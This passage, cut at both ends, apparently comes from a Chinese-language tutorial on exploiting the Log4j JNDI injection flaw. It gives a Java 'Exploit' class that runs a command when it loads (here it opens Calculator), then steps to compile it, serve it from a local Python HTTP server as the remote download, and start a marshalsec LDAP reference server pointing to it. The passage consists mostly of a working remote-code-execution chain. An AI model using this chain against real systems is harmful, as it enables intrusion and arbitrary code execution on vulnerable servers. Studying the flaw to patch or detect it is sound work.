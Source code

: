 ```java
public class Exploit {
  public Exploit(){
    try{
      // 要执行的命令
      String[] commands = {"open", "/System/Applications/Calculator.app"};
      Process pc = Runtime.getRuntime().exec(commands);
      pc.waitFor();
   } catch(Exception e){
      e.printStackTrace();
   }
 }

  public static void main(String[] argv) {
    Exploit e = new Exploit();
 }
}
```

* 第三步：将恶意类编译，得到Exploit.class。

  ```
  javac Exploit.java
  ```

* 第四步：在当前目录输入如下命令，启动一个web服务，充当着远程下载的作用。

  ```bash
  python3 -m http.server 8100
  ```

<img src="漏洞利用\log4j (7).png" alt="log4j (7)" style="zoom:61%;" />

   * 第五步：输入如下命令启动marshalsec IDAP服务。

   项目地址：https://github.com/mbechler/marshalsec

```bash
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```
